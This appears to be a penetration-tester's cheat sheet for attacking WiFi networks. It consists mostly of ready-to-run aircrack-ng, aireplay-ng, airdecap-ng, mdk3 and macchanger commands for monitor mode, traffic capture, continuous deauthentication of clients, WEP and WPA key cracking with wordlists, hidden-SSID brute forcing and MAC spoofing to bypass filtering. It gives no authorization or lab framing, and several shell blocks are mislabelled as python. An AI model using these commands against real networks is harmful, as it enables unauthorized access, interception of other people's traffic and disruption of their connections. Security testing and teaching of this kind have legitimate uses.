 # Attacking WiFi Networks

### Monitor Mode

```shell
# Get names of all available interfaces
sudo airmon-ng
# Start montior mode on interface
sudo airmon-ng start wlan0
# Start montior mode on specific channel
sudo airmon-ng start wlan0 11

# Checking for interfering processes
# We can kill them to avoid any issues
sudo airmon-ng check
sudo airmon-ng check kill

# Stopping monitor mode
sudo airmon-ng stop wlan0mon
```

### Capture Traffic

```shell
# Scanning networks
sudo airodump-ng wlan0mon
# Scanning Specific Channels or a Single Channel
sudo airodump-ng -c 11 wlan0mon

# Scanning different bands
# a uses 5 GHz
# b uses 2.4 GHz
# g uses 2.4 GHz
sudo airodump-ng wlan0mon --band a
# Scanning all bands
sudo airodump-ng --band abg wlan0mon

# Write to a file
--write filename
# Save only the captured IVs (Initialization Vectors)
--ivs
```

### Create Graphs

- **Clients to AP Relationship Graph:** Illustrates the connections between wireless clients and Access Points.

- **Clients Probe Graph:** Showcases the probed networks by wireless clients. A visual depiction of the networks 
scanned and potentially accessed by these devices.

```python
# Clients to AP Relationship Graph
sudo airgraph-ng -i traffic.csv -g CAPR -o CAPR.png

# Clients Probe Graph
sudo airgraph-ng -i traffic.csv -g CPG -o CPG.png
```

### Attacking using Aireplay-ng

- Check for codes of different attack modes supported by aireplay-ng

```python
# Test for packet injection 
# Injection is working! This indicates that our
# interface supports packet injection
sudo aireplay-ng --test wlan0mon

# Perform Deauthentication attack
# number_of_deauths=0 means send continuously
sudo aireplay-ng --deauth <number_of_deauths> -a <AP_mac> -c <client_mac> wlan0mon
```

- When we de-authenticate a client, a four-way handshake would be captured by airodump-ng
when client tries to reconnect to the network.


### Decrypting Traffic

- Once we have key to a network, we can decrypt `WEP`, `WPA PSK`, and `WPA2 PSK` captures.
- We can use `Airdecap-ng` to perform following tasks:

    - Removing wireless headers from an open network capture (Unencrypted capture).
    - Decrypting a WEP-encrypted capture file using a hexadecimal WEP key.
    - Decrypting a WPA/WPA2-encrypted capture file using the passphrase.

```python
# An output file with the suffix -dec will be
# generated which we can view in wireshark

# Removing Wireless Headers from Unencrypted 
# Capture file
airdecap-ng -b <bssid> <capture-file>

# Decrypting WEP-encrypted captures
airdecap-ng -w <WEP-key> <capture-file>

# Decrypting WPA-encrypted captures
airdecap-ng -p <passphrase> <capture-file> -e <essid>
```


### Cracking Passwords

- From the above commands of airodump, you must have a pcap file
with a sufficient number of encrypted packets for cracking WEP
or it must have captured a "four-way handshake" for cracking WPA.

```python
# Cracking WEP
aircrack-ng -K traffic.ivs 

# Cracking WPA
aircrack-ng traffic.pcap -w <wordlist>
```

### Finding Hidden SSIDs

- In the airodump-ng result, the ESSID is hidden and it is showing the
length of the name, instead of the actual name.

**Detecting Hidden SSID using Deauth:**
    - De-authenticate a client from its network.
    - After sending the deauthentication requests using aireplay-ng, we will be able to see the
    name of the hidden SSID appear in airodump-ng once the client reconnects to the WiFi network.
    - This process leverages the re-association request, which contains the SSID name, and allows
    us to capture and identify the hidden SSID.

**Bruteforcing Hidden SSID:**
    - We can also use Brute Force attack to get hidden SSID.

    ```python
    # upper case (u)
    # digits (n)
    # all printed (a)
    # lower and upper case (c)
    # lower and upper case plus numbers (m)
    sudo mdk3 wlan0mon p -b u -c 1 -t <target_mac> -f <wordlist>
    ```


### Bypassing MAC Filtering

- MAC filtering involves allowing only devices with specific MAC (Media Access Control) 
addresses to connect to the network.

- This can be bypassed by performing `MAC address spoofing`, where an attacker changes their
device's MAC address to match an allowed device, thereby gaining access to the network.

- This approach often leads to collision events, as two devices with the same MAC address cannot
coexist on the same network simultaneously.

- A more effective method would be to either forcefully disconnect the legitimate client through 
deauthentication attacks, thereby freeing up the MAC address for use, or to wait for the client 
to disconnect naturally. 

- In the case of a dual-band or multiple access point network, we may be able to utilize a MAC 
address of a client connected to a separate access point within the same wireless infrastructure.

```python
# Change MAC address of your interface
sudo ifconfig wlan0 down
sudo macchanger wlan0 -m <new_mac_address>
sudo ifconfig wlan0 up
```